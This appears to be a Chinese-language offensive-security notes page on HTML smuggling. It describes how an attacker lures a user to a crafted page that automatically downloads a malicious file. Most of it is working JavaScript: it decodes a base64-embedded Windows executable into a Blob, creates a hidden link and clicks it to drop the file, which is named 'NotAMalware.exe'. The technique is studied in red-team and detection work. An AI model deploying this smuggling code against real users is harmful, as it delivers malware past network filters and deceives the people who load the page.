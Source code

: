 # HTML走私

## 概述

- [描述](#描述)
- [可执行存储](#可执行存储)

## 描述

HTML走私是指让用户导航到我们精心制作的HTML页面，该页面会自动下载我们的恶意文件。

## 可执行存储

我们可以将有效载荷存储在Blob对象中 => JS: `var blob = new Blob([data], {type: 'octet/stream'});`
为了执行下载，我们需要创建一个对象URL => JS: `var url = window.URL.createObjectURL(blob);`
有了这两个元素，我们可以使用JavaScript创建我们的\<a>标签，该标签将用于下载我们的恶意文件：

```Javascript
var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeObjectURL(url);
```

为了存储我们的有效载荷，我们使用base64编码：

```Javascript
function base64ToArrayBuffer(base64) {
	var binary_string = window.atob(base64);
	var len = binary_string.length;
	var bytes = new Uint8Array( len );
	for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
	return bytes.buffer;
}
     		
var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'NotAMalware.exe';
```